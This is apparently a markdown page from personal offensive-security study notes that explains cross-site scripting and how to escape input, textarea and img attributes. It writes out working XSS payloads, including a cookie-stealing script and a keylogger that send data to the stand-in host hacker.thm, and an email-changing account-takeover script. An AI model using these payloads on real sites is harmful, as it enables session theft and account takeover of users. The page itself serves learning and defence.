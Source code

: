 ```yaml
---
title: Cross-site Scripting
---
```


_Cross-Site Scripting_, is an injection attack where malicious JavaScript gets injected into a web application with the intention of being executed by other users.

Cross-site scripting vulnerabilities are extremely common:

- [XSS found in Shopify](https://hackerone.com/reports/415484)
- [$7,500 for XSS found in Steam chat](https://hackerone.com/reports/409850)
- [$2,500 for XSS in HackerOne](https://hackerone.com/reports/449351)
- [XSS found in Infogram](https://hackerone.com/reports/283825)

## XSS payloads

The XSS [[knowledge/offsec/glossary/payload]] is the JavaScript code we wish to be executed on the targets computer.

There are two parts to the payload:

- _The intention_ - it's is what you wish the JavaScript to actually do
- _The modification_ - it's the changes to the code we need to make it execute as every scenario is different

## Examples of XSS intentions

- Proof of Concept - the simplest of payloads where all you want to do is demonstrate that you can achieve XSS on a website
  - `<script>alert('XSS');</script>`
- Stealing user session from Cookies
  - `<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>`
- Key logging
  - `<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`
- Targeted at the business logic
  - a lot more specific than the examples above
  - calling a particular network resource or a JS fn, e.g. `user.changeEmail()`
  - `<script>user.changeEmail('attacker@hacker.thm');</script>`

## Types of XSS

- [[knowledge/offsec/pentesting/reflected-xss]]
- [[knowledge/offsec/pentesting/stored-xss]]
- [[knowledge/offsec/pentesting/dom-based-xss]]
- [[knowledge/offsec/pentesting/blind-xss]]

## Escaping HTML

Viewing the page source, you can see your name reflected inside the value attribute of the input tag:

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/2f6b23615d6970aab8e1fb2a8d352e9f.png)

Let's say, we have a form that takes a name and renders it inside the `input` tag:

```html
<div class="text-center">
  <h2>Hello, <input value="Adam" /></h2>
</div>
```

The JavaScript payload can't run it from inside the `input` tag. We need to escape the `input` tag first so the payload can run properly. We can do this with the following payload:

```
"><script>alert('THM');</script>
```

The important part of the payload is the `">` which closes the value parameter and then closes the input tag.

This now closes the input tag properly and allows the JavaScript payload to run:

```html
<div class="text-center">
  <h2>
    Hello, <input value="" />
    <script>
      alert("THM");
    </script>
    ">
  </h2>
</div>
```

In case of `textarea`, escaping looks a bit different. We're closing the `textarea` tag first:

```html
<!-- payload -->
</textarea><script>alert("THM");</script>
```

```html
<div class="text-center">
	<h2>Hello, <textarea></textarea><script>alert("THM");</script></textarea></h2>
</div>
```

To get around the filters, we can also take advantage of the additional attributes of the tags, such as the `onload` event of an `img` tag. `onload` executes the code of your choosing once the image specified in the `src` attribute has loaded onto the web page:

```
/images/cat.jpg" onload="alert('THM');` 
```
